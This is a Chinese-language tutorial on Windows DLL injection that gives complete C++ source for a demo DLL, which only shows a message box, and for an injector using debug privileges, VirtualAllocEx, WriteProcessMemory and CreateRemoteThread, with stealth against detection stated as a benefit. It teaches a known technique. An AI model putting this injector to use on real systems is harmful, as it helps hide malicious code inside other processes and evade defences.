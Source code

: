 # Process Injection  

------------------------------  

### 0x00 前言  
远程进程注入：将自己的代码放在目标进程的地址空间里运行，实现对内存中的某个进程进行操作，并且获得该进程地址空间里的数据，或者修改进程的私有数据结构。

利用 DLL 文件，在 DLL 文件第一次被装载进进程时，会执行 DLLMain 中的 DLL\_PROCESS\_ATTACH 下的代码。  

进程注入的优点是：  

1. 需要插入到远程进程的内存空间是通过virtualAllocEx这样的函数分配的，只存在于内存中，如果不是内存查杀，很难发现。
2. 可以复用宿主进程的名称、端口，更加隐蔽  



### 0x01 进程注入流程    
进程注入的流程：  

1. 将系统权限提升到Debug模式，因为只有debug模式才能打开远程进程的handle。(`EnableDebugPrivilege`)
2. 打开远程进程。(`OpenProcess`)
3. 将 DLL 文件的路径分配到目标内容空间中。(`VirtualAllocEx`)
4. 将DLL文件内容写入到远程进程。(`WriteProcessMemory`)
5. 在宿主进程中启动新线程完成插入。(`CreateRemoteThread`)


>上面提到的函数到 MSDN 查看详细的使用方法。


### 0x02 程序  
恶意的 DLL 文件代码： 
`DllHeader.h`:  

	#ifndef dllDemoHeader	#define dllDemoHeader	#ifdef DLLDEMO	#define EXPOETS_DEMO _declspec(dllexport)	#else	#define EXPORTS_DEMO _declspec(dllimport)	#endif	extern "C" EXPORTS_DEMO int add(int a, int b);	#endif
	
`Main`:  

	#include <windows.h>	#include "DllHeader.h"	//dll Entry Point Function	bool APIENTRY DllMain(HANDLE hModule, DWORD dwReason, void* lpReserved) {		switch(dwReason) {			//it can be executed when first time loaded 			case DLL_PROCESS_ATTACH:				MessageBox(NULL, TEXT("Hello DLL~"), TEXT("Title"), MB_OK);				break;			//			case DLL_THREAD_ATTACH:				break;			//			case DLL_THREAD_DETACH:				break;			//			case DLL_PROCESS_DETACH:				break;		}		return true;	}	int add(int a, int b) {		return a + b;	}




进程插入代码： 

	/**	 * Description: This is example for process inject.	 *	Author: xx	 * Time: 2017.2.22	 * Version: 0.1	 */	#include <iostream>	#include <windows.h>	using namespace std;	//	int EnableDebugPrivilege(const char* name);	int main(int argc, char* argv[]) {		char filePath[MAX_PATH];		//MAX_PATH是C语言运行时库中通过#define指令定义的一个宏常量，它定义了编译器所支持的最长全路径名的长度。		HANDLE hRemoteProcess;		char* pszLibFileRemote;		bool retVal;		//Adjust privilege "DEBUG"		EnableDebugPrivilege(SE_DEBUG_NAME);		GetCurrentDirectory(MAX_PATH, filePath);		strcat(filePath, "\\DllTest.dll");		cout << filePath << endl;		//打开目标进程		hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, 284);		if(hRemoteProcess == NULL) {			cout << "OpenProcess() Failed" << endl;		}		//为 dll 路径分配内存空间		pszLibFileRemote = (char*)VirtualAllocEx(hRemoteProcess, NULL, strlen(filePath)+1, MEM_COMMIT, PAGE_READWRITE);		if(pszLibFileRemote == NULL) {			cout << "VirtualAllocEx() Failed" << endl;		}		//将 dll 路径写入内存空间		retVal = WriteProcessMemory(hRemoteProcess, pszLibFileRemote, filePath, strlen(filePath)+1, NULL);		if(retVal == 0) {			cout << "WriteProcessMemory() Failed" << endl;		}		//得到 LoadLibraryA 的内存地址		PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");		if(pfnStartAddr == NULL) {			cout << "GetProcAddress() Failed" << endl;		}		//创建子进程		HANDLE hRemoteThread;		hRemoteThread = CreateRemoteThread(hRemoteProcess, NULL, 0, pfnStartAddr, pszLibFileRemote, 0, NULL);		if(hRemoteThread == NULL) {			cout << "CreateRemoteThread() Failed" << endl;		}		else {			cout << "Inject Success" << endl;		}		CloseHandle(hRemoteProcess);		CloseHandle(hRemoteThread);		system("pause");		return 0;	}	int EnableDebugPrivilege(const char* name) {		HANDLE hToken;		TOKEN_PRIVILEGES tp;		LUID luid;		OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, & hToken);		LookupPrivilegeValue(NULL, name, &luid);		tp.PrivilegeCount = 1;		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;		tp.Privileges[0].Luid = luid;		if(AdjustTokenPrivileges(hToken, 0, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {			cout << "AdjustTokenPrivileges Success" << endl;		}		return 0;	}




</br> 

-------------------------------
References: 
cnblogs.茄子写字板:  <http://www.cnblogs.com/handt/archive/2012/08/09/2627277.html>  
淡泊明志，宁静致远:  <http://andylin02.iteye.com/blog/459483>  
</br>
Author: xx  
Time: 2017.2.22